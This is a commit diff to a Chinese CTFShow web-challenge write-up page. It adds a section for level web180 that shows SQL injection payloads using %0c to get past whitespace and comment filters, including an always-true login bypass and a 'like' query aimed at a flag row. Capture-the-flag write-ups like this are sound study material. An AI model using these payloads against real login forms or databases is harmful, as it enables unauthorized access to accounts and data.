

Before and after one commit to Alice1nCradle/CTFShow-Web, a Markdown page: Web入门/Web入门.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
web180 clear

````diff
--- a/Web入门/Web入门.md
+++ b/Web入门/Web入门.md
@@ -1306,6 +1306,24 @@ id=1'or'1'='1'%23
 
 万能密码'or'1'='1'%23依旧坚挺，下道题试试看。
 
+### web180
+
+这次过滤了%09,%0a,%0b,%0d，用%0c绕过
+
+通过测试发现注释符被过滤了，即–+，#，%23都不可以使用，我们换一种思路，把sql后面的‘闭合。
+
+```
+'or'1'='1'--%0c
+```
+
+或者
+
+```
+-1'%0cor%0cusername%0clike%0c'flag
+```
+
+
+
 ## 反序列化
 
 ### web254
````
